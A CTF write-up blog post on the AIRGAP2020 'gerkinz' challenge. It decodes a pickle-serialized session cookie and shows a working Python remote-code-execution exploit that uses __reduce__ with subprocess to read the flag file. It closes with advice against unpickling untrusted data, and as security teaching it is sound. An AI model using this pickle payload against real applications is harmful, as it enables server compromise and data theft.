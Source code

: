 AIRGAP2020 CTF 2020 write up
############################
:date: 2020-05-03
:author: tvd
:category: ctf
:tags: ctf, security
:slug: airgap2020-ctf-writeup

This weekend I worked on the `#AIRGAP2020 CTF <https://airgapp.in/>`_ with the `CTF_Circle team <https://twitter.com/CTF_Circle>`_. As a group we finished `1st overall <https://twitter.com/CTF_Circle/status/1256740013171027968>`_!

This post walks through one flag, which shows why python pickle should not be used with user submitted data.

gerkinz
-------

The challenge was called gerkinz and was hosted at http://ctf.airgapp.in:5000/. Visiting that site shows a login form with a login text form. Submitting any username loads a new page with that username.

.. image:: /images/airgap2020-ctf-gerkinz-demo.gif
    :align: center

Looking at what's happening, we can see there is a form that does a ``POST /login`` with body of ``user=<inputted name>``. It's also worth noting that the web server is using python and werkzeug (this is important later).

::

    $ curl -vs 'http://ctf.airgapp.in:5000/'
    ...
    < Server: Werkzeug/1.0.1 Python/3.8.2
    ...
        <form action="/login" method="post">
            <input type="text" name="user" />
            <input type="submit" value="login" />
        </form>

The response from ``POST /login`` is a 302 Found response that redirects back to the home page. It also sets a cookie.

::

    $ curl -vs -X POST 'http://ctf.airgapp.in:5000/login' -d'user=i_am_admin'
    ...
    < HTTP/1.0 302 FOUND
    ...
    < Location: http://ctf.airgapp.in:5000/
    < Set-Cookie: user=gASVQgAAAAAAAAB9lCiMBG5hbWWUjAppX2FtX2FkbWlulIwJbGFzdGxvZ2lulIwaMjAyMC0wNS0wM1QxOTowNzowMS4xNjc4NziUdS4=; Path=/
    ...

The cookie appears to be base64 encoded and based on the form we hypothesize that the home page is reading that cookie to populate the user name. To confirm that, we decode the cookie::

    $ echo 'gASVQgAAAAAAAAB9lCiMBG5hbWWUjAppX2FtX2FkbWlulIwJbGFzdGxvZ2lulIwaMjAyMC0wNS0wM1QxOTowNzowMS4xNjc4NziUdS4=' | base64 -d
    B}(name
    i_am_admin      lastlogin2020-05-03T19:07:01.167878u.

Doing this in python shows there are several characters hidden by the terminal::

    >>> import base64
    >>> decoded = base64.b64decode('gASVQgAAAAAAAAB9lCiMBG5hbWWUjAppX2FtX2FkbWlulIwJbGFzdGxvZ2lulIwaMjAyMC0wNS0wM1QxOTowNzowMS4xNjc4NziUdS4=')
    >>> decoded
    b'\x80\x04\x95B\x00\x00\x00\x00\x00\x00\x00}\x94(\x8c\x04name\x94\x8c\ni_am_admin\x94\x8c\tlastlogin\x94\x8c\x1a2020-05-03T19:07:01.167878\x94u.'

We took a guess that this was the pickle serialization format (this is a ctf, after all) and that proved correct! The cookie is a dictionary with keys for name and lastlogin::

    >>> import pickle
    >>> unpickled = pickle.loads(decoded)
    >>> unpickled
    {'name': 'i_am_admin', 'lastlogin': '2020-05-03T19:07:01.167878'}
    >>> type(unpickled)
    <class 'dict'>

The `python pickle documentation <https://docs.python.org/3/library/pickle.html>`_ warns about accepting pickles from untrusted sources.

.. image:: /images/python-pickle-warning.png
    :align: center

To execute arbitrary code from an object we pickle, we use the `__reduce__() method <https://docs.python.org/3/library/pickle.html#object.__reduce__>`_. It takes no arguments and can return a tuple that has a callable and arguments used to create the initial version of the object that was pickled. We use that to return `subprocess.check_output <https://docs.python.org/3/library/subprocess.html#subprocess.check_output>`_, which runs whatever command we give as an argument and returns stdout as bytes.

This is the python code we ended up with for creating a malicious cookie and then sending it to the server. The pickled cookie works by setting the value of 'name' in the cookie dictionary to the output of 'cat flag.txt'. Then when the home page is sent back to the user, it will say 'welcome <the flag>!'. Make sure to install the ``requests`` library before running.

.. code-block:: python

    import base64
    import pickle
    import requests

    class PickleRce(object):
        def __reduce__(self):
            import subprocess
            return subprocess.check_output, (['/bin/cat', 'flag.txt'],)

    def cli():
        pickled_dict = pickle.dumps({
            'name': PickleRce(),
            'lastlogin': '2020-05-02T18:32:56.238336',
        })
        base64_it = base64.b64encode(pickled_dict)
        resp = requests.get('http://ctf.airgapp.in:5000/', cookies={'user': str(base64_it, 'utf8')})
        print(resp.text)

    if __name__ == '__main__':
        cli()

Running this code outputs the html for the home page with the flag::

    ...
    <h1>welcome b'thug{...}'!</h1>
    ...

We got lucky and guessed that the flag was in a flag.txt in the working directory for the web server—that's a common pattern for CTFs. If that had not been the case, we could have used other shell commands to investigate the file system, running processes, scan the network, check environmnent variables, and things like that. We did try to get a reverse shell on the box, but that didn't work (our guess is the egress rules for that system prevented outbound network traffic).

Lessons
-------

#. Don't use pickle for serialization of untrusted user submitted data. If storing these data in a cookie was important, keeping it simple and setting individual string cookies for each value would be safer than serializing the dictionary.
#. Working with teammates on CTFs is a great way to learn!
